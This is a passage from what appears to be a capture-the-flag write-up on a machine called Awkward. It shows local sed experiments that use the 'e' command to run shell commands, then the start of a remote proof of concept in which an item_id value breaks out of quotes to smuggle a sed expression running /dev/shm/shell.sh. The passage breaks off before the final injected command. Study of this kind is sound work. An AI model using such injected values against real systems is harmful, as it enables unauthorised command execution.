     oxdf@hacky$ cat test 
    This is a test file
    oxdf@hacky$ sed -i '1e whoami' test
    oxdf@hacky$ cat test 
    oxdf
    This is a test file



So what happens if I include `'/item_id=1` in front? Well this fails,
and doesn't change the file:



    oxdf@hacky$ sed -i '/item_id=1' '1e id' test 
    sed: -e expression #1, char 10: unterminated address regex



But if I give it `-e`, then it does work:



    oxdf@hacky$ cat test 
    This is a test file
    oxdf@hacky$ sed -i '/item_id=1' -e '1e whoami' test
    sed: can't read /item_id=1: No such file or directory
    oxdf@hacky$ cat test 
    oxdf
    This is a test file



There's a warning about the junk at the front, but then it does what I
want it to. It turns out if I make the `'` good, the `'/d'` at the end
won't matter either:



    oxdf@hacky$ cat test 
    This is a test file
    oxdf@hacky$ sed -i '/item_id=1' -e '1e whoami' '/d' test 
    sed: can't read /item_id=1: No such file or directory
    sed: can't read /d: No such file or directory
    oxdf@hacky$ cat test 
    oxdf
    This is a test file



#### Building Remote POC

The `sed` on Awkward looks like:



    sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}



If I set `$item_id` to `1' -e '1e /dev/shm/shell.sh' '`, then it
becomes:

